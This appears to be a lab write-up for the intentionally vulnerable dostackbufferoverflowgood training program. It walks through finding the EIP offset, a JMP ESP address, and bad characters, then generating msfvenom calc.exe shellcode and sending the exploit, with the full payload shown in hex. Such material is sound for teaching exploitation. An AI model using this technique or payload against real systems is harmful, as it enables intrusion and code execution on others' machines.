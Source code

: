 # Dostackbufferoverflowgood
https://github.com/justinsteven/dostackbufferoverflowgood

## Solution
### 1. Set up exe in Windows VM
The IP address of the VM is 192.168.34.253.
![UI Screenshot](img/1.png)
Test out the program in Kali:
```bash
kali@kali:~$ nc 192.168.34.253 31337
test
Hello test!!!
test
Hello test!!!
test2
Hello test2!!!
exit
Bye!
```

### 2. Find EIP location
```bash
kali@kali:~$ python -c "from pwn import cyclic; print(cyclic(1000))" | nc 192.168.34.253 31337
```
Over on the debugger, it can be seen the application has crashed with an access violation on 0x616D6261.
![UI Screenshot](img/2.png)
Next, get the offset using this address.
```bash
kali@kali:~$ python -c "from pwn import cyclic_find; print(cyclic_find(0x616D6261))"
146
```

### 3. Find JMP ESP instruction
This can be done a number of ways. On Kali it can be done using objdump and grep. A common way of doing it these days is using Immunity Debugger's mona plugin which can search a for instructions in a debugged executable.  
Use `!mona modules` to ensure there is lacking protection on the binary being analysed.
```bash
0BADF00D   !mona modules

           ---------- Mona command started on 2020-11-09 17:24:27 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x70ee0000 | 0x70fc0000 | 0x000e0000 | True   | True    | True  |  True    | True   | 10.0.14393.2247 [ucrtbase.DLL] (C:\Windows\system32\ucrtbase.DLL)
0BADF00D    0x70e40000 | 0x70e44000 | 0x00004000 | True   | True    | True  |  True    | True   | 10.0.14393.2247 [api-ms-win-crt-convert-l1-1-0.dll] (C:\Windows\system32\api-ms-win-crt-convert-l1-1-0.dll)
0BADF00D    0x75440000 | 0x75515000 | 0x000d5000 | True   | True    | True  |  True    | True   | 6.1.7601.18015 [kernel32.dll] (C:\Windows\system32\kernel32.dll)
0BADF00D    0x76f30000 | 0x76fdc000 | 0x000ac000 | True   | True    | True  |  True    | True   | 7.0.7601.17744 [msvcrt.dll] (C:\Windows\system32\msvcrt.dll)
0BADF00D    0x08040000 | 0x08048000 | 0x00008000 | False  | True    | False |  False   | False  | -1.0- [dostackbufferoverflowgood.exe] (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
```
This shows that rebase and ASLR are false for the executable. Search for ffe4 (jmp esp) instructions with `!mona jmp -r esp -m dostackbufferoverflowgood.exe`:
```bash
0BADF00D   !mona jmp -r esp -m dostackbufferoverflowgood.exe

           ---------- Mona command started on 2020-11-09 17:39:24 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Only querying modules dostackbufferoverflowgood.exe
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 1 modules
0BADF00D       - Querying module dostackbufferoverflowgood.exe
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'jmp esp' : 2
0BADF00D   [+] Results :
080414C3     0x080414c3 : jmp esp |  {PAGE_EXECUTE_READ} [dostackbufferoverflowgood.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
080416BF     0x080416bf : jmp esp |  {PAGE_EXECUTE_READ} [dostackbufferoverflowgood.exe] ASLR: False, Rebase: False, SafeSEH: True, OS: False, v-1.0- (C:\Users\Jack\Downloads\dostackbufferoverflowgood.exe)
0BADF00D       Found a total of 2 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.154000
```
Add `0x080414c3` as jmp_esp.

### 4. Identify bad characters
Here is an array of bad characters that can be tried with the application.
```bash
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
The goal is to ensure any characters that stop this string being processed by the application are removed. This is an iterative process.
1. Send the entire string to the application
2. See if the entire string was copied into memory successfully by following ESP in dump
3. If not, remove the offending characters
4. Repeat.  
  
![UI Screenshot](img/3.png)
In this instance, there is 1 bad character, `0x0a`.

### 5. Generate some shellcode
```bash
kali@kali:~/Desktop/dostack$ msfvenom --arch x86 --platform windows -p windows/exec CMD=calc.exe -b '\x0a' -f python > shellcode.py
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of python file: 1078 bytes
```
Add this to the final exploit. The exploit is structured like so:
```
[PADDING * 146] + [JMP ESP] + [32 BYTE NOPSLED] + [CALC SHELLCODE]
```

### 6. Exploit the application
```bash
kali@kali:~/Desktop/dostack$ python exploit.py 
[+] Opening connection to 192.168.34.253 on port 31337: Done
[DEBUG] Sent 0x193 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000090  41 41 c3 14  04 08 90 90  90 90 90 90  90 90 90 90  │AA··│····│····│····│
    000000a0  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    000000b0  90 90 90 90  90 90 b8 29  31 fd dc db  d8 d9 74 24  │····│···)│1···│··t$│
    000000c0  f4 5a 2b c9  b1 31 31 42  13 83 ea fc  03 42 26 d3  │·Z+·│·11B│····│·B&·│
    000000d0  08 20 d0 91  f3 d9 20 f6  7a 3c 11 36  18 34 01 86  │· ··│·· ·│z<·6│·4··│
    000000e0  6a 18 ad 6d  3e 89 26 03  97 be 8f ae  c1 f1 10 82  │j··m│>·&·│····│····│
    000000f0  32 93 92 d9  66 73 ab 11  7b 72 ec 4c  76 26 a5 1b  │2···│fs··│{r·L│v&··│
    00000100  25 d7 c2 56  f6 5c 98 77  7e 80 68 79  af 17 e3 20  │%··V│·\·w│~·hy│··· │
    00000110  6f 99 20 59  26 81 25 64  f0 3a 9d 12  03 eb ec db  │o· Y│&·%d│·:··│····│
    00000120  a8 d2 c1 29  b0 13 e5 d1  c7 6d 16 6f  d0 a9 65 ab  │···)│····│·m·o│··e·│
    00000130  55 2a cd 38  cd 96 ec ed  88 5d e2 5a  de 3a e6 5d  │U*·8│····│·]·Z│·:·]│
    00000140  33 31 12 d5  b2 96 93 ad  90 32 f8 76  b8 63 a4 d9  │31··│····│·2·v│·c··│
    00000150  c5 74 07 85  63 fe a5 d2  19 5d a3 25  af db 81 26  │·t··│c···│·]·%│···&│
    00000160  af e3 b5 4e  9e 68 5a 08  1f bb 1f e6  55 e6 09 6f  │···N│·hZ·│····│U··o│
    00000170  30 72 08 f2  c3 a8 4e 0b  40 59 2e e8  58 28 2b b4  │0r··│··N·│@Y.·│X(+·│
    00000180  de c0 41 a5  8a e6 f6 c6  9e 84 99 54  42 65 3c dd  │··A·│····│···T│Be<·│
    00000190  e1 79 0a                                            │·y·│
    00000193
[*] Closed connection to 192.168.34.253 port 31337
```
This pops a calculator on the Windows VM.
![UI Screenshot](img/4.png)